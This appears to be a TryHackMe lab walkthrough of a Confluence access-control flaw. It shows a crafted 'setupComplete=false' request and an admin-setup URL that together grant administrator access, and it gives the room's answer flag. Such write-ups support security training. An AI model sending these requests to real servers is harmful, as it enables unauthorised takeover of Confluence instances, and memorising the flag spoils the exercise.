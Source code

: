 <pre><code>
http://10.10.245.48:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>

<p>This will be effectively translated by XWork into a call to:</p>

<pre><code>
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
</code></pre>

<p>Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:</p>

![image](https://github.com/user-attachments/assets/bdb9e0ea-a749-4a19-9c8e-b40a9b45f2d0)


<h3>Creating an Admin Account</h3>
<p>Creating an Admin Account</p>

<pre><code>
http://10.10.245.48:8090/setup/setupadministrator-start.action
</code></pre>

<p>Fill in the details of your new admin user and click next:</p>

![image](https://github.com/user-attachments/assets/6723f455-8797-455a-a2d7-0c77cdaebc7d)

<p>If all goes well, you should get access to Confluence with administrative privileges!</p>

![image](https://github.com/user-attachments/assets/3475c636-a5f3-4d1b-98bd-1876ae532a39)

<p>In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, check Rapid7 analysis in attackerKB.</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 2.1. <em>Log into Confluence with your new credentials. What is the value of the flag posted by admin?</em><br><a id='2.1'></a>
>> <code><strong>THM{who_needs_keys_anyway}</strong></code>

<br>


<pre><code>
http://confluence.thm:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>


![image](https://github.com/user-attachments/assets/4fab16e0-d9f3-45ca-a409-3524af133785)

<pre><code>
http://confluence.thm:8090/setup/setupadministrator-start.action
</code></pre>

![image](https://github.com/user-attachments/assets/c4a2ecf9-0e79-4a10-ae1e-a305d2200bf2)
